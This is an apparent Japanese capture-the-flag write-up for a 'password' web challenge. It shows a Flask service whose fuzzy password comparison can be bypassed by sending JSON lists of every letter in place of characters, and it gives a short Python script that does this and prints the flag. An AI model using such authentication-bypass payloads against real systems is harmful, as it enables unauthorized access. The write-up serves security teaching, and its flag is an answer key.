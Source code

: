 # password:Web:300pts
パスワードの文字が紛らわしいので、打ち間違えても通るようにしました。 [http://34.146.80.178:8001/](http://34.146.80.178:8001/)  
[password.zip](password.zip)  

# Solution
アクセスするとパスワードをチェックするサイトのようだ。  
flag form  
[site.png](site/site.png)  
ソースが配布されているので見ると以下のようであった。  
```python
~~~
password = "".join([secrets.choice(string.ascii_letters) for _ in range(32)])
~~~
def fuzzy_equal(input_pass, password):
	if len(input_pass) != len(password):
		return False

	for i in range(len(input_pass)):
		if input_pass[i] in "0oO":
			c = "0oO"
		elif input_pass[i] in "l1I":
			c = "l1I"
		else:
			c = input_pass[i]
		if all([ci != password[i] for ci in c]):
			return False
	return True
~~~
@app.route("/flag", methods=["POST"])
def search():
	if request.headers.get("Content-Type") != 'application/json':
		return make_response("Content-Type Not Allowed", 415)

	input_pass = request.json.get("pass", "")
	if not fuzzy_equal(input_pass, password):
		return make_response("invalid password", 401)
	return flag
~~~
```
パスワードはランダムのstring.ascii_lettersのようである。  
jsonで受け取り、`0oO`と`l1I`を曖昧にしているようだ。  
眺めると`all([ci != password[i] for ci in c])`が気にかかる。  
`input_pass[i]`が配列である場合、その中に`password[i]`と同じ文字が含まれていると容易に突破できる。  
`input_pass[i]`が`"abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"`となるようなリクエストを投げればよい。  
以下のatoz.pyにて行う。  
```python:atoz.py
import json
import requests

url = "http://34.146.80.178:8001/flag"

data = {"pass":["abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"]*32}
headers = {"Content-Type":"application/json"}
response = requests.post(url, data=json.dumps(data), headers=headers)
print(response.text)
```
以下のように実行する。  
```bash
$ python atoz.py
nitic_ctf{s0_sh0u1d_va11dat3_j50n_sch3m3}
```
flagが得られた。  

## nitic_ctf{s0_sh0u1d_va11dat3_j50n_sch3m3}
